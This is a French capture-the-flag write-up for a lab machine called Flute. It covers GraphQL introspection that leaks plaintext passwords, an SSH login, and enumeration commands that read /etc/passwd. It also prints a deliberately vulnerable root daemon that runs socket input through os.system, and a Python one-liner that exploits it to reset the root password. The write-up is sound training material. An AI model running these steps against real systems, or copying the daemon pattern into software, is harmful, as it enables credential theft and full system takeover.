



## 1. Découverte des services

### Nmap

```bash
nmap -sC -sV --top-ports 5000 -T5 172.20.10.2
```

Résultats :

- `22/tcp open  ssh   OpenSSH 10.0 (protocol 2.0)`
- `8888/tcp open  sun-answerbook?`

On a donc un service SSH sur le port 22 et une application web sur le port 8888.

---

## 2. Analyse de l'interface web



L’objectif est d’interroger le serveur **Apollo** en envoyant des requêtes **GraphQL** vers l’endpoint `/graphql`.

---

## 3. Exploration avec des requêtes GraphQL

On commence par récupérer le schéma pour voir ce qui est exposé :

```bash
curl -X POST http://172.20.10.2:8888/graphql \
  -H "Content-Type: application/json" \
  -d '{"query": "{ __schema { types { name } } }"}'
```

Réponse :

```json
{"data":{"__schema":{"types":[
  {"name":"User"},
  {"name":"String"},
  {"name":"Query"},
  {"name":"Boolean"},
  {"name":"__Schema"},
  {"name":"__Type"},
  {"name":"__TypeKind"},
  {"name":"__Field"},
  {"name":"__InputValue"},
  {"name":"__EnumValue"},
  {"name":"__Directive"},
  {"name":"__DirectiveLocation"}
]}}}
```

On repère immédiatement un type **User** qui semble intéressant. On va chercher les champs qu’il contient :

```bash
curl -X POST http://172.20.10.2:8888/graphql \
  -H "Content-Type: application/json" \
  -d '{"query": "{ __type(name: \"User\") { fields { name type { name } } } }"}'
```

Réponse :

```json
{"data":{"__type":{"fields":[
  {"name":"username","type":{"name":"String"}},
  {"name":"password","type":{"name":"String"}}
]}}}
```

C’est une excellente piste : on a des champs `username` et `password` en clair, probablement de quoi se connecter en SSH.

On cherche ensuite quelles queries sont disponibles :

```bash
curl -X POST http://172.20.10.2:8888/graphql \
  -H "Content-Type: application/json" \
  -d '{"query": "{ __schema { queryType { fields { name args { name } } } } }"}'
```

Réponse :

```json
{"data":{"__schema":{"queryType":{"fields":[
  {"name":"users","args":[]},
  {"name":"user","args":[{"name":"username"}]}
]}}}}
```

Il existe donc :

- `users` pour récupérer tous les utilisateurs
- `user(username: ...)` pour en chercher un par nom

On récupère tous les utilisateurs :

```bash
curl -X POST http://172.20.10.2:8888/graphql \
  -H "Content-Type: application/json" \
  -d '{"query": "{ users { username password } }"}'
```

Bingo :

```json
{"data":{"users":[
  {"username":"admin","password":"imtherealadmin"},
  {"username":"hamelin","password":"comewithmerats"}
]}}
```

On obtient deux comptes avec leurs mots de passe en clair :

- `admin / imtherealadmin`
- `hamelin / comewithmerats`

---

## 4. Connexion SSH

J’essaie d’abord le compte **admin** :

```bash
ssh admin@172.20.10.2

The authenticity of host '172.20.10.2 (172.20.10.2)' can't be established.
ED25519 key fingerprint is: SHA256:pQL6MCusRtFF6QNd7BL9RBACLaGEw9epVnuBo3D9ETc
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.20.10.2' (ED25519) to the list of known hosts.
admin@172.20.10.2's password:
Permission denied, please try again.
```

Le mot de passe a visiblement changé pour `admin`.

Je teste alors le compte **hamelin** :

```bash
ssh hamelin@172.20.10.2
hamelin@172.20.10.2's password:
HackMyVM Flute.
flute:~$
```

Connexion réussie !

---

## 5. Flag user trouvé



Le flag user est récupéré sur le compte `hamelin`.

---

## 6. Analyse de l'environnement

Avant de chercher une privesc, on commence par analyser l’environnement :

```bash
id
ps aux
cat /etc/passwd | grep -v nologin | grep -v false
find / -perm -4000 -type f 2>/dev/null
ls -la /srv/
ls -la /opt/
ls -la /var/
```

On trouve notamment :

- un binaire `bbsuid` (qui s’avère être une fausse piste)
- `/opt/ratd/ratd.py` qui tourne en **root** et écoute sur `/tmp/ratd.sock`
- `/usr/bin/python3`

---

## 7. Élévation des privilèges

On lit le fichier `ratd.py` :

```bash
flute:~$ cat /opt/ratd/ratd.py
```

Contenu :

```python
import socket
import os

sock = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
socket_path = "/tmp/ratd.sock"

if os.path.exists(socket_path):
    os.remove(socket_path)

sock.bind(socket_path)
os.chmod(socket_path, 0o777)
sock.listen(1)

print("Rat daemon running...")

while True:
    conn, _ = sock.accept()
    data = conn.recv(1024).decode()

    if data.startswith("RUN "):
        cmd = data[4:]
        os.system(cmd)
        conn.send(b"OK\n")
    else:
        conn.send(b"Unknown command\n")

    conn.close()
```

Le daemon fait trois choses très dangereuses :

- il écoute sur `/tmp/ratd.sock` avec des permissions **777** (tout le monde peut s’y connecter) ;
- il accepte des commandes préfixées par `RUN` ;
- il exécute ces commandes via `os.system()` **sans aucune authentification**, en tant que **root**.

On s’y connecte avec Python et on envoie une commande pour changer le mot de passe root :

```bash
python3 -c "
import socket
s = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
s.connect('/tmp/ratd.sock')
s.send(b'RUN echo \"root:hacked\" | chpasswd\n')
print(s.recv(1024).decode())
s.close()
"
```

---

On se connecte ensuite en root :

```bash
su - root  # mot de passe : hacked
```

---

## 8. Flag root trouvé



Le flag root est accessible une fois loggé en root.

---

> **Leçon retenue :** Un daemon qui accepte des commandes sur un Unix socket en 777 et les exécute via `os.system()` en root, sans aucune authentification, est une privesc garantie. Toujours inspecter les services maison dans `/opt` et les sockets dans `/tmp`.